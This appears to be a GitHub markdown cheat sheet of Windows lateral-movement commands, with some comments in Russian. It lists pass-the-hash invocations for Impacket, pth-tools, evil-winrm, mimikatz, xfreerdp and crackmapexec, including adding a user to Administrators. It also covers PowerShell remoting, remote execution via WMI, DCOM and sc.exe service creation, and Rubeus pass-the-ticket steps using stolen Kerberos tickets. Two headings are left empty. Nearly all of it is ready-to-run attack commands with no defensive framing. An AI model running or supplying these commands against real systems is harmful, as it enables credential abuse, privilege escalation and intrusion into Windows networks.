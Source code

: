 ## Pass the Hash:  
**Impacket and pth**:  
1) psexec.py -hashes LM:NTLM admin@target  
2) wmiexec.py -hashes :NTLM admin@target  
3) pth-winexe -U admin% //target cmd  
4) pth-wmic -U admin% //target "select Name from Win32_UserAccount"  
5) pth-wmis -U admin% //target "cmd.exe /c whoami > c:\out.txt"
6) pth-smbclient -U admin% //target/c$
7) pth-rpcclient -U admin% //target
8) pth-sqsh -U admin -S target
9) pth-curl http://target/exec?cmd=ipconfig
10) pth-net rpc group ADDMEM 'Administrators' username -S target -U domain/user

**Evil-winrm**:  
evil-winrm -i target -u admin -H "NT hash value"

**Windows (mimikatz)**:  
mimikatz.exe securlsa::pth /user:username /domain:domain /ntlm:NTLM_HASH /run:cmd  

**RDP**:  
xfreerdp /u:<user> /d:domain /pth:hash /v:ipAddr 

**CME**:  
crackmapexec smb <IP> -u username -H ":NT hash value"  

## PowerShell-Remoting: 

Enter-PSSession -ComputerName <computername> -Credentials <domain>\username  

Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <computername> -Credentials <domain>\username  

$session = New-PSSession -ComputerName <computer name> -verbose  
Enter-PSSession -Session $session -Verbose  
Invoke-Command -Session $session -ScriptBlock {whoami;hostname} -Verbose  

## REG.EXE:  
reg.exe; //Удаленный доступ к реестру с правами на запись на самом деле нам дает RCE.  
  
## DCERPC:  
Использует порты 135/TCP и 4915x/TCP, где 4915x — динамически назначаемые порты. Иногда могут использоваться порты из другого диапазона.  

1. wmiexec.py admin@target; //wmiexec.py -nooutput admin@target "mkdir c:\pwn".  
2. dcomexec.py admin@target; //dcomexec.py -nooutput admin@10.0.0.64 "mkdir c:\123".  
3. wmis -U admin //target "mkdir c:\pwn"/  
4. wmic.exe /user:username /password:password /node:target process call create '"c:\123".  
5. sc.exe; //Назначение инструмента — удаленное управление службами и драйверами. 
    - sc.exe \\target create testservice binPath= \path\to\prog start= auto  
    - sc.exe \\target start testservice  

## Pass the Ticket (Rubeus):  
**First step**: [steal ticket](https://github.com/Kerkroups/Cyber-Kill-Chain/blob/main/Data%20Gathering%20-%20Credentials%20Theft.md#%D0%B8%D0%B7%D0%B2%D0%BB%D0%B5%D1%87%D0%B5%D0%BD%D0%B8%D0%B5-kerberos-tickest-rubeus)  
**Second step**: create hidden process  
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:username /password:fakepassword  
**Pass the ticket**: Rubeus.exe ptt /luid:(luid of areated process) /ticket:(stolen ticket)  
  

## Overpass the Hash:  
  

## Token Impersonation:  
  
